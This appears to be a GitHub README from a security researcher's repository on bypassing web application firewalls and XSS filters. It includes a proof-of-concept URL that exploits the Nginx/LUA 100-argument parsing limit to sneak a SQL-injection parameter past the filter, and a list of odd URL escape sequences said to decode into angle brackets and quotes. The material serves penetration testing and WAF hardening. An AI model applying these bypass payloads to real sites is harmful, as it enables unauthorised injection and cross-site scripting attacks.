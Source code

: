 # Bypassing-Web-Application-Firewalls-And-XSS-Filters
This repository contains some documented WAF bypass exploits and a series of python scripts for generating weird character combinations and lists for BurpSuite Pro for bypassing web application firewalls (WAF) and XSS filters.

## Nginx/LUA 100 Request Limitation Exploit
*Update October 2018*
As detiled in the recently disclosed Cloudflare vulnerability, several Nginx/LUA based WAF implementations have a limitation where only 100 requests (GET/POST requests) can be processed before the WAF is no longer able to see them.

> “Nginx is a web server that is responsible for processing web requests. It is a stable and versatile tool that allows developers to focus on the implementation of WAF through different scripts written in LUA. Most of these open source WAF’s have the same problem: they don’t take into account that the module responsible for the integration of LUA in Nginx (lua-nginx-module) doesn’t allow access to all the information of a request.”

> ngx.req.get_uri_args()
some note from https://github.com/openresty/lua-nginx-module#ngxreqget_uri_args
“Note that a maximum of 100 request arguments are parsed by default (including those with the same name) and that additional request arguments are silently discarded to guard against potential denial of service attacks.”  

Proof of concept 100 request parameters for WAF bypass exploit:  
/test.php?&a0=0&a1=1&a2=2&a3=3&a4=4&a5=5&a6=6&a7=7&a8=8&a9=9&a10=10&a11=11&a12=12&a13=13&a14=14&a15=15&a16=16&a17=17&a18=18&a19=19&a20=20&a21=21&a22=22&a23=23&a24=24&a25=25&a26=26&a27=27&a28=28&a29=29&a30=30&a31=31&a32=32&a33=33&a34=34&a35=35&a36=36&a37=37&a38=38&a39=39&a40=40&a41=41&a42=42&a43=43&a44=44&a45=45&a46=46&a47=47&a48=48&a49=49&a50=50&a51=51&a52=52&a53=53&a54=54&a55=55&a56=56&a57=57&a58=58&a59=59&a60=60&a61=61&a62=62&a63=63&a64=64&a65=65&a66=66&a67=67&a68=68&a69=69&a70=70&a71=71&a72=72&a73=73&a74=74&a75=75&a76=76&a77=77&a78=78&a79=79&a80=80&a81=81&a82=82&a83=83&a84=84&a85=85&a86=86&a87=87&a88=88&a89=89&a90=90&a91=91&a92=92&a93=93&a94=94&a95=95&a96=96&a97=97&a98=98&a=information_schemas  


References:  
https://github.com/p0pr0ck5/lua-resty-waf/issues/280  
https://latesthackingnews.com/2018/10/26/cloudflare-waf-bypass-vulnerability-discovered/  

## WAF Funky Characters Testing
These python scripts have been created to fuzz wierd combinations:

 * URL Escape Characters 
 * HTML Escape Characters
 * Binary Characters
 
These scripts were created during an assessment, while trying to bypass a Web Application Firewall (WAF) in order to exploit a XSS vulnerability.
Differnt webservers and browsers interpret URL and strange characters differently which could lead to the bypassing of security controls.
When I tried to send a > or < character the WAF would block the request.

The following URL escapes I have noticed are traslated to < > ' by Apache2 based web servers / WAF applications:

%(N%(n%)S%)U%)^%)s%)u%*C%*E%*c%*e%,.%.#%1N%1n%2S%2U%2^%2s%2u%3C%3E%3c%3e%5.%7#%:C%:E
%:c%:e%HN%Hn%IS%IU%I^%Is%Iu%JC%JE%Jc%Je%L.%N#%XN%Xn%YS%YU%Y^%Ys%Yu%ZC%ZE%Zc%Ze%\.%^#
%hN%hn%iS%iU%i^%is%iu%jC%jE%jc%je%l.%n#%xN%xn%yS%yU%y^%ys%yu%zC%zE%zc%ze%|.


